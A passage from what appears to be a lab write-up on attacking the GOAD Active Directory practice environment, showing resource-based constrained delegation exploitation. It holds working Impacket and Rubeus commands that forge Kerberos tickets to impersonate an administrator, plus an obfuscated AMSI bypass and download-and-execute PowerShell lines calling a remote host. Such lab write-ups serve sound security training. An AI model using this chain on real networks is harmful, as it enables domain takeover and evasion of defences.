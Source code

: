 - Now we finish with RBCD exploitation

- with Impacket :

```bash
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPassword'
export KRB5CCNAME=/workspace/krbrelay\$.ccache
getST.py -impersonate 'administrator' -spn 'CIFS/castelblack.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$'
export KRB5CCNAME=/workspace/administrator@CIFS_castelblack.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k @castelblack.north.sevenkingdoms.local

C:\>whoami
north\administrator
```

![privesc_krbrelay_rbcd_impacket.png](/assets/blog/GOAD/privesc_krbrelay_rbcd_impacket.png)

- Or with Rubeus

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -rubeus -Command "hash /password:ComputerPassword"
PowerSharpPack -rubeus -Command "s4u /user:krbrelay$ /rc4:0EDDEDC35EB7B7ECDE0C9F0564E54C83 /impersonateuser:administrator /msdsspn:host/castelblack /ptt"
```

- And just like the writeup made by @an0n_r0 we launch [SCMUACBypass.exe](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) by Tyranid and get a system shell
